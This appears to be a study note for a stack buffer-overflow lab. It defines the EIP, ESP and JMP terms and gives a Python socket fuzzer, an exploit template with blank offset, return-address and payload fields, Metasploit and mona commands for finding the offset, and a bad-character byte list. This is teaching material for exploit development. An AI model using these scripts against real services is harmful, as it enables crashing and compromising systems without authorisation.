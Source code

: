 EIP =>The Extended Instruction Pointer (EIP) is a register that contains the address of the next instruction for the program or command.\

ESP=>The Extended Stack Pointer (ESP) is a register that lets you know where on the stack you are and allows you to push data in and out of the application.\

JMP =>The Jump (JMP) is an instruction that modifies the flow of execution where the operand you designate will contain the address being jumped to.\

\x41, \x42, \x43 =>The hexadecimal values for A, B and C. For this exercise, there is no benefit to using hex vs ascii, it’s just my personal preference.\



use Immunity Debugger

fuzzer
`#!/usr/bin/env python3
import socket, time, sys
ip = "<IP>"
port = 1337
timeout = 5
prefix = "OVERFLOW1 "
string = prefix + "A" * 100
while True:
  try:
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
      s.settimeout(timeout)
      s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
      s.send(bytes(string, "latin-1"))
      s.recv(1024)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)`

exploit

`import socket
ip = "<IP>"
port = <PORT>
prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""
buffer = prefix + overflow + retn + padding + payload + postfix
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
`


On kali 
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <LENGHT>`

In mona 
`!mona findmsp -distance <LENGHT>?`


`\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff`

